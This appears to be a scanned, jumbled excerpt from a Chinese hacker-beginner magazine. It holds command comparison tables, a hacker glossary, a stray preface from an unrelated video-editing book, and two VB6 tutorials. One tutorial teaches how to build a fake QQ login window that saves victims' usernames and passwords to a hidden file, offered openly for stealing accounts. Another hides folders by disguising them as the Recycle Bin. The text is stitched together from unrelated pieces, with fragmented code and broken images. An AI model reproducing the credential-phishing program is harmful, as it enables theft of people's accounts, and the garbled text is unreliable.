你会看到很多这个端口的扫描，这依赖于你所在的位置。当用户打开PcAnywhere时，它会自动扫描局域网C类网以寻找可能的代理(译者：指agent而不是proxy)。

以上就是流行操作系统的端口服务对照表。要了解更多信息请查阅更详细的资料。这些都是最常用的端口，请牢牢记住！

这是给喜爱 *nix 的朋友准备的栏目。对 *nix 系统感兴趣的读者，是不是对 Linux、Solaris、FreeBSD 等系统的使用命令很迷惑呢？是不是在不同的操作系统下不知道该使用什么命令呢？这 3 个操作系统有很多命令都一样，也有不一样的，总让大家分辨不清。下面我就简单地把这 3 个操作系统常用命令的不同和相同之处做个表格给大家分析一下，希望大家对这 3 个系统命令的使用有个清晰的认识。

### 文件系统的对比

具体表格如下：

| 项目 | Linux | Solaris | FreeBSD |
| --- | --- | --- | --- |
| 用户账号设置 | | | |
| 密码文件 | /etc/passwd<br>/etc/shadow | /etc/passwd<br>/etc/shadow | /etc/passwd<br>/etc/master.passwd |
| 组文件 | /etc/group | /etc/group | /etc/group |
| 允许远程登录的<br>用户文件设置 | /etc/security<br>/etc/ttys1 | /etc/default/login<br>(CONSOLE=/dev/console) | /etc/ttys<br>(secure) |
| 创建新用户 | useradd | useradd | adduser |
| 删除用户 | userdel | userdel | rmuser |
| 修改用户帐号 | usermod | usermod | usermod |

当大家对 Win2k 和 Linux 系统都了解一点时，是不是总把这两个操作系统的命令搞混啊？下面我就把做同样事情的命令写到一个表格中，让大家参考一下它们的区别。

| 命令说明 | Win2k 命令 | Linux 命令 |
| --- | --- | --- |
| 显示版本信息 | C:\>ver | #uname |
| 显示当前目录内信息 | C:\>dir | #ls |
| 查看当前所在目录 | C:\>cd | #pwd |
| 拷贝文件 | C:\>copy | #cp |
| 删除文件 | C:\>del | #rm |
| 新建目录 | C:\>md | #mkdir |
| 返回上级目录 | C:\>cd.. | #cd .. |
| 返回根目录 | C:\>cd \ | #cd / |
| 写入命令 | C:\>echo > | #cat > |
| 查看文本内容 | C:\>type | #cat |

### Win2k 与 Linux 命令对照表

Unix是个多用户多任务操作系统，而且Unix还有许多变种。当今最受欢迎的操作系统必属Linux了。全世界的企业、银行、国防部基本都用这种操作系统，可见Linux在网络中的优越性，所以学好Linux很重要。

如果你是初学Linux的读者，就必须先看看下面的内容，里面收集了黑客常使用的命令以及命令的详细说明。相信看完后大家能对Linux系统有所了解。

### Linux 常用命令列表

- **ls**：显示当前目录的所有文件以及子目录。`ls -al`（在以上的基础上显示隐藏目录）
- **pwd**：查询目前所在的目录位置。
- **cd**：更换目前工作目录位置。`cd ..` 回到上一层目录，（cd和..之间要有个空格）
- **cat**：查看文字档内容。`cat >abc`（往abc文件里写入东西）
- **more**：以一页一页的方式显示一个文字档。
- **cp**：拷贝文件的命令。
- **mv**：移动文件的命令。
- **rm**：删除档案命令。`rm -a <目录名>`（删除该目录及该目录下的所有档案）
- **mkdir**：建立子目录。
- **rmdir**：删除子目录，目录内必须没有文档。
- **chmod**：设定档案或目录的存取权限。
- **grep**：于档案中寻找特定字串。
- **diff**：档案比较。
- **find**：档案搜寻。
- **mail**：读取以及传送电子邮件。`Mail user <filename>`
- **date**：现在的日期、时间。
- **who**：查询目前和你使用同一台机器的人以及Login时间地点。
- **w**：查询目前上机者的详细资料。
- **whoami**：查看自己的帐号名称。
- **groups**：查看某人的Group。
- **passwd**：更改密码。
- **history**：查看自己下过的命令。
- **ps**：显示进程的状态。
- **kill**：停止处理某进程。`Kill -9 -1`（杀掉系统内所有属于字的Process）
- **gcc**：黑客通常用它来编译C语言编写的文件。
- **su**：权限转换为指定使用者。

以上就是Linux下的常用命令，下面我来讲讲终端机常用的控制键。

- **Ctrl + C**：中断程式的执行。
- **Ctrl + Z**：暂停程式的执行，稍后可以按下fg或bg命令继续。
- **Ctrl + S**：屏幕暂停输出。
- **Ctrl + Q**：屏幕恢复输出。

## 黑客术语

如果大家是初级菜鸟，是不是常在一些黑客网站上看到网络安全和黑客术语，是不是有很多术语不明白是什么意思？那么就请看下面的黑客术语大全吧！

**木马**  全称为特洛伊木马（Trojan Horse），是根据希腊神话传说中一次战争而得名。麦尼劳斯派兵讨伐特洛伊王国，他们假装被打败，然后留下一个大木马，而木马里却藏着最强悍的勇士！最后等晚上时间一到，木马里的勇士就冲出来把敌人打败了。这就是后来的“木马计”，而黑客中的木马有点后门的意思，就是把预谋的功能隐藏在公开的功能里，掩饰真正的企图。

**肉鸡**  已经被攻击了，对其具有控制权的主机。

**跳板**  一个具有辅助作用的机器，利用这个主机作为一个间接工具，来入侵其他主机，一般和肉鸡连用。

**Shell**  Shell就是系统于用户的交换式界面。简单来说，就是系统与用户的一个沟通环境，我们平时用到的DOS就是一个Shell（Win2K是cmd.exe）。

**Root**  Unix里最高权限的用户，也就是超级管理员。

**Admin**  Windows NT/2K/XP里最高权限的用户，也就是超级管理员。

**Rootshell**  通过一个溢出程序，在主机溢出一个具有Root权限的Shell。

**Exploit**  溢出程序。Exploit里通常包含一些Shellcode。

**Shellcode**  溢出攻击要调用的API函数，溢出后要有一个交换式界面进行操作。所以说就有了Shellcode。

**Acces Control list(ACL)**  访问控制列表。

**Address Resolution Protocol(ARP)**  地址解析协议。

**Administrator account**  管理员帐号。

**ARPANET**  阿帕网（Internet的前称）。

**access token**  访问令牌。

**adaptive speed leveling**  自适应速度等级调整。

**algorithm**  算法 alias 别名

**anlpasswd**  一种与PASS WD+相似的代理密码检查器。

**applications**  应用程序 ATM 异步传递模式

**account lockout**  帐号封锁。

**account policies**  记帐策略。

**accounts**  帐号。

**adapter**  适配器。



## 编程

## 前言

您在学 VCD 或 DVD 时，发现朋友认为这是很简单的东西，而教太多太多的时间去学，而效果一直不好。再看看市面关于 VCD 或 DVD 方面的书，都是薄薄的二百页，卖二十几块。而这一次我们不管这书有多厚，只求能将 VCD 或 DVD 的制作方法彻底讲清楚。这也是我们写此书的目的：让你们能自己制作出 VCD 或 DVD，从中获得更大的乐趣和方便。

社会发展的趋势是：简单化、多样化、小型化，而视频多媒体技术的应用，使这种趋势更加明显。在以前需要许多专业人员使用许多设备才能完成的工作。现在只要有一台电脑和一套视频制作软件，就可轻松完成。目前这方面的软件非常多，但比较优秀的不多，而“会声会影”是其中比较突出的一个。其操作简单，功能强大，能满足我们日常生活的需要。

本书所介绍的就是会声会影 6.0，之所以选择它，是因为它是 Ulead 公司开发的一个很有特色的软件，除了操作简单外，在视频编辑方面功能强大，而且它对硬件的要求也不高，在一般配置的电脑上就能很好的运行。

在当今的许多同类的视频软件中，它率先支持了最新的技术，例如：支持各种摄像机的输入和输出，能直接通过 IEEE 1394 卡从数字摄像机中采集视频，并能将编辑好的视频保存到光盘上。利用它可以在普通的电脑上制作出专业水平的 VCD 或 DVD 影片。

本书是一本关于会声会影 6.0 的使用手册，书中以大量的操作实例介绍了会声会影 6.0 的基本功能、使用方法、操作技巧。在编写中本着由浅入深、通俗易懂、实用性强、便于自学等特点，在结构上做了精心的安排。

## 菜鸟也当黑客——黑客入门实例精讲

| 编程工具：VB6.0 | 系统环境：Windows系统(任何版本) |

QQ 已成为网民们不可缺少的工具了，它可用来交流信息，和别人谈心，但大家有没有 QQ 号被盗的时候呢？是不是很痛恨又有点羡慕那些偷号的人？现在盗 QQ 号的程序漫天飞舞，其实你也可自己打造一偷号程序的。即使一点编程基础都没有的人都可以学会，而且非常实用。菜鸟从中还可学到一些编程知识。好了，大家快来看看我是怎么做的吧！

### 制作过程

制作步骤如下：

- 1. 打开 VB6.0，在 Form1 里做出图 1 的样子，越像越好啊！让别人相信这是个真正的 QQ 程序。图 1 是我用 VB 做的，呵呵！是不是能以假乱真啊！
- 2. 然后在现有基础上添加一个窗体，用来连接下一个窗体，步骤如图 2。新建 Form2 并且作成图 3 的样子。
- 3. 在图 1 中的“登陆”按钮里填写如下代码：
```vb
Private Sub Command1_Click()
Form2.Show '打开图[3]的窗体
Unload Me '关闭自己
End Sub
```
- 4. 再添加一个窗体 Form3，如图4。在“确定”按钮里填写如下代码：
```vb
Private Sub Command1_Click()
```









16 黑客X档案


# 黑客入门实例精讲

```
Form2.Show
End Sub
```

```
Private Sub Command2_Click()
End
End Sub
```

在“取消”按钮里填写如下代码：

在Form1里的“取消”按钮里也写入End代表退出。然后再建立一个Form4，并且在Form1里的注册向导按钮里填写如下代码：

```
Form4.Show
```

Form4窗口如图5所示。本程序的关键就在Form4中“下一步”按钮里的代码，代码如下：

```
Private Sub Command3_Click()
Open "c:\win32" For Append As #1
Print #1, "用户名"
Print #1, Text1.Text
Print #1, "密码"
Print #1, Text2.Text
Print #1, ""
Close #1
Form5.Show
```


进入Form5窗口，如图6所示。



```
Unload Me
退出自己
End Sub
```

这里是把用户和密码对话框里的数据存放到c:\win32的文件里
这样的话，使用者就真的以为是程序出错，就退出了程序。

## 补充品

以上就是简单制作盗QQ号的程序，但大家是不是会有这样一个疑问，当做的时候我们哪里有QQ图标和那些QQ里的图案呢？总不能跟腾讯要吧！嘻嘻，这里我会用到一个工具——eXescope（光盘中有收录）。这款软件有提取程序图标的功能，所以我建议大家使用它。好了，现在我就来说明一下eXescope是如何使用的。

首先用eXescope打开QQ.exe文件，然后点“资源一位图”，现在位图下的东西就是QQ.exe里所有的图标了，大家可以看一下图7。





就这样我们就可以做出以假乱真的QQ了，大家做完看看自己做得是不是很像啊！如果自己都看着不像，别人怎么相信他是真QQ啊！现在我们就可偷到QQ号了，这个程序很简单吧，相信不会编程的读者看了之后也会对编程感兴趣的。

HackerXFiles    47

# 编程篇 黑客入门实例精讲

经常使用别人软件的菜鸟们，是不是也想编一个有用的软件啊？在这里我给大家一个秘诀——“编程并不需要懂得很多的程序命令，但如果你能用已知的知识来完成想要得到的结果，这才是最珍贵的”。编程需要清晰的头脑，你都不知道编写什么东西，哪能对编程感兴趣呢？难道我们菜鸟就不能编出实用、简单的软件？答案是可以的。下面笔者编写一个简单的程序给大家看看！

首先讲一下制作这个软件需要掌握的一些原理：这里主要讲一下Desktop.ini文件，从微软的MSDN得知，它是利用一种Microsofts Active Desktop技术，这种技术可以个性化文件夹，个性化目录的参数就记录在Desktop.ini文件中。本程序我利用这个文件把文件夹变成回收站。

## 具体操作如下：

- 1。首先在一个文件夹里新建一个Desktop.ini文件，如图8。



- 2。在这个ini文件里写入图9所示的代码。保存完毕后，再把这个文件夹的属性设置成只读。如图10。






不过总这么做是不是觉得很麻烦？当每次需要把文件夹伪装时都这么做，费时又费力。那么我就想到把这个原理与VB结合，做个方便的工具。下面请看制作过程。

编程环境：VB6.0
操作系统：Win9X
编程内容：可以把文件夹伪装成回收站，导致用户打不开文件夹而达到隐藏目的。

首先打开VB 6.0，建立一个标准的EXE。然后在窗体上分别创建Dir1、Drive1、Command1（开始伪装）、Command2（开始还原）、Command3

- 3。过1秒钟后你的那个文件夹就变成回收站了，如图11。是不是很神奇啊？


# 黑客入门实例精讲

（退出）五个控件。如图12。



图12

好了，最初就是这么简单，下面进入代码区域填写关键的代码部分。代码如下：

```
Private Sub Drive1_Change()
On Error GoTo end1
' 忽略驱动器未准备好等错误
Dir1.Path = Drive1.Drive
end1:
end sub

Private Sub Command1_Click()
On Error Resume Next
' 如出现错误，跳过执行下一个命令

Open Dir1.Path & "\desktop.ini" For Output As #1
' 当选中Dir1里某一个文件夹时，在里面建立一个desktop.ini的文件
Print #1, "[.ShellClassInfo]"
Print #1, "clsid={645FF040-5081-101B-9F08-00AA002F954E}"
Close #1

Dim FiletoOpens
' 定义FiletoOpen变量
FiletoOpen = Dir1.Path & "\desktop.ini"
' 使FiletoOpen变量指到选择文件夹里的desktop.ini
Shell "attrib +h " & FiletoOpen, vbHide
' 利用shell命令使desktop.ini为隐藏文件

Dim PathtoOpens
```

```
再定义PathtoOpen变量
PathtoOpen = Dir1.Path
' 变量指向所选的文件夹
Shell "attrib +r " & PathtoOpen, vbHide
' 使文件夹属性为只读
MsgBox "OK! 文件伪装成功！ "
' 当以上工作完成后出现成功对话框
End Sub
```

> > 小提示
> 在执行Shell命令时会有DOS窗口一闪而过，这里用vbHide来使DOS窗口变成隐藏端口，此命令适用于编程新手，可以代替高级复杂的API函数。

```
Private Sub Command2_Click()
Shell "attrib -r " & PathtoOpen, vbHide
' 去掉文件夹只读属性
MsgBox "COOL! ! ! 看到了吧！文件已经被还原了"
End Sub

' 这几句话就可以使文件夹还原，很简单吧！

Private Sub Command3_Click()
GotoVal = Me.Height / 2
For Gointo = 1 To GotoVal
DoEvents
Me.Height = Me.Height - 10
' 退出时横向缩进的速度
If Me.Height <= 11 Then GoTo horiz
Next Gointo
horiz:
Me.Height = 30
GotoVal = Me.Width / 2
For Gointo = 1 To GotoVal
DoEvents
Me.Width = Me.Width - 10
' 退出时上升缩进的速度
If Me.Width <= 11 Then End
Next Gointo
End
End Sub
```

HackerXFiles

19

# 编程技巧 黑客入门实例精讲

这是一个退出程序的特技效果，可让软件变得生动些。如果想正常退出，可以用End。
以上就是这个软件的全部代码，是不是很简单啊！这个软件可使文件夹隐藏为一个回收站。如果想给软件加工变成能伪装别的东西，可在窗体里添加Option控件，例如：
比如说我们做了1个Command按钮和2个Option按钮，目的是当选择Option1时按一下Command按钮，文件夹伪装成MIDI；而选择Option2后再按一下Command按钮，文件夹又变成回收站了，那么我们可先在Option上写如下代码：

```
Private Sub Option1_Click()
    If Option1 = True Then
        Command1.Enabled = True
        '如果 Option1 被选中了，那么 Command1 就激活
    End If
End Sub
```

下面我们来看一下Command里的代码流程：

```
If Option1 = True Then
    (这里填写伪装成MIDI文件的代码)
Else
    (这里填写伪装成回收站的代码)
End If
```

以上的意思很容易理解，就是利用IF — Else — End If语句来完成。目的是当选中Option1时执行Else以前的代码。当选中Option2时就执行Else以后的代码。以下我做的这个程序就是使用Option后的软件。如图13。

